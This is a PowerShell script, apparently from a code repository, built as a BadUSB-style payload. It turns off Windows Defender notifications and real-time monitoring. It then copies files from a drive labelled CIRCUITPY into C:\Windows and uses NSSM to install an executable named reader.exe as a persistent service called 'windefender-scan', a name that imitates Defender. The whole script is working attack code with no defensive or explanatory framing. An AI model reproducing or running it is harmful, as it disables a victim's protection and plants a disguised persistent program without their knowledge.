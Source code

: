 
PowerShell -ExecutionPolicy Bypass -Command "Set-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows Defender Security Center\Notifications' -Name 'DisableEnhancedNotifications' -Value 1"

Set-MpPreference -DisableRealtimeMonitoring $true

$driveLetter = Get-WmiObject Win32_LogicalDisk | Where-Object { $_.VolumeName -eq "CIRCUITPY" } | Select-Object -ExpandProperty DeviceID

if ($driveLetter) {
    $sourcePath = Join-Path $driveLetter "data"
    $destinationPath = "C:\Windows"

    # Check if the source path exists
    if (Test-Path $sourcePath) {
        # Copy files from CIRCUITPY to the Windows folder
        Copy-Item -Path "$sourcePath\*" -Destination $destinationPath -Recurse -Force
        Set-Location -Path $destinationPath

        # Define NSSM path and service parameters
        $nssmPath = Join-Path $destinationPath "nssm.exe"  # Assuming nssm.exe is copied to the Windows folder
        $serviceName = "windefender-scan"
        $exePath = Join-Path $destinationPath "reader.exe"

        # Check if NSSM and the reader.exe file exist
        if (Test-Path $nssmPath -and Test-Path $exePath) {
            # Install and start the service
            & $nssmPath install $serviceName $exePath
            & $nssmPath start $serviceName
        } else {
            Write-Host "nssm.exe or reader.exe not found in the destination path."
        }
    } else {
        Write-Host "Source folder 'data' not found on CIRCUITPY drive."
    }
} else {
    Write-Host "CIRCUITPY drive not found."
}
